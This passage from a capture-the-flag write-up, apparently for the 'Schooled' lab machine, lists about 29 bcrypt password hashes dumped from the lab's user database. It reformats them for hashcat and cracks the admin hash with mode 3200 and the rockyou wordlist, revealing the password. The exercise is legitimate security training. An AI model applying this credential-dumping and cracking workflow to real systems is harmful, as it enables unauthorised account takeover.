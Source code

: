     28 rows in set (0.00 sec)



The admin username has an email address for jamie@staff.schooled.htb.
I'll use some command line foo to get them into hashcat format:



    oxdf@parrot$ cat db_hashes | tr -d "|" | awk '{print $1":"$3}' | tee hashes
    guest:$2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2
    admin:$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW
    bell_oliver89:$2y$10$N0feGGafBvl.g6LNBKXPVOpkvs8y/axSPyXb46HiFP3C9c42dhvgK
    orchid_sheila89:$2y$10$YMsy0e4x4vKq7HxMsDk.OehnmAcc8tFa0lzj5b1Zc8IhqZx03aryC
    chard_ellzabeth89:$2y$10$D0Hu9XehYbTxNsf/uZrxXeRp/6pmT1/6A.Q2CZhbR26lCPtf68wUC
    morris_jake89:$2y$10$UieCKjut2IMiglWqRCkSzerF.8AnR8NtOLFmDUcQa90lair7LndRy
    heel_james89:$2y$10$sjk.jJKsfnLG4r5rYytMge4sJWj4ZY8xeWRIrepPJ8oWlynRc9Eim
    nash_michael89:$2y$10$yShrS/zCD1Uoy0JMZPCDB.saWGsPUrPyQZ4eAS50jGZUp8zsqF8tu
    singh_rakesh89:$2y$10$Yd52KrjMGJwPUeDQRU7wNu6xjTMobTWq3eEzMWeA2KsfAPAcHSUPu
    taint_marcus89:$2y$10$kFO4L15Elng2Z2R4cCkbdOHyh5rKwnG4csQ0gWUeu2bJGt4Mxswoa
    walls_shaun89:$2y$10$EDXwQZ9Dp6UNHjAF.ZXY2uKV5NBjNBiLx/WnwHiQ87Dk90yZHf3ga
    smith_john89:$2y$10$YRdwHxfstP0on0Yzd2jkNe/YE/9PDv/YC2aVtC97mz5RZnqsZ/5Em
    white_jack89:$2y$10$PRy8LErZpSKT7YuSxlWntOWK/5LmSEPYLafDd13Nv36MxlT5yOZqK
    travis_carl89:$2y$10$VO/MiMUhZGoZmWiY7jQxz.Gu8xeThHXCczYB0nYsZr7J5PZ95gj9S
    mac_amy89:$2y$10$PgOU/KKquLGxowyzPCUsi.QRTUIrPETU7q1DEDv2Dt.xAjPlTGK3i
    james_boris89:$2y$10$N4hGccQNNM9oWJOm2uy1LuN50EtVcba/1MgsQ9P/hcwErzAYUtzWq
    pierce_allan:$2y$10$ia9fKz9.arKUUBbaGo2FM.b7n/QU1WDAFRafgD6j7uXtzQxLyR3Zy
    henry_william89:$2y$10$qj67d57dL/XzjCgE0qD1i.ION66fK0TgwCFou9yT6jbR7pFRXHmIu
    harper_zoe89:$2y$10$mnYTPvYjDwQtQuZ9etlFmeiuIqTiYxVYkmruFIh4rWFkC3V1Y0zPy
    wright_travis89:$2y$10$XFE/IKSMPg21lenhEfUoVemf4OrtLEL6w2kLIJdYceOOivRB7wnpm
    allen_matthew89:$2y$10$kFYnbkwG.vqrorLlAz6hT.p0RqvBwZK2kiHT9v3SHGa8XTCKbwTZq
    sanders_wallis89:$2y$10$br9VzK6V17zJttyB8jK9Tub/1l2h7mgX1E3qcUbLL.GY.JtIBDG5u
    higgins_jane:$2y$10$n9SrsMwmiU.egHN60RleAOauTK2XShvjsCS0tAR6m54hR1Bba6ni2
    phillips_manuel:$2y$10$ZwxEs65Q0gO8rN8zpVGU2eYDvAoVmWYYEhHBPovIHr8HZGBvEYEYG
    carter_lianne:$2y$10$jw.KgN/SIpG2MAKvW8qdiub67JD7STqIER1VeRvAH4fs/DPF57JZe
    parker_dan89:$2y$10$MYvrCS5ykPXX0pjVuCGZOOPxgj.fiQAZXyufW5itreQEc2IB2.OSi
    parker_tim89:$2y$10$YCYp8F91YdvY2QCg3Cl5r.jzYxMwkwEm/QBGYIs.apyeCeRD7OD6S
    0xdf:$2y$10$AmKUmB1aYnZKMrj/LoaYeefybrcq8mBU0JmEGKiXoDJtj0EFZBjza



### Crack Hashes

Hashcat example hashes show these are bcrypt. Because cracking bcrypt
hashes is so slow, and because each word has to be tested for each
unique salt, I'm going to just test the admin account that has an email
address of jamie@staff.schooled.htb. The [Hashcat example
hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) page shows
these are mode 3200, so I'll run
`hashcat -m 3200 --user hash /usr/share/wordlists/rockyou.txt`. It
cracks in a bout 15 minutes on a really low-powered VM:



    $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW:!QAZ2wsx

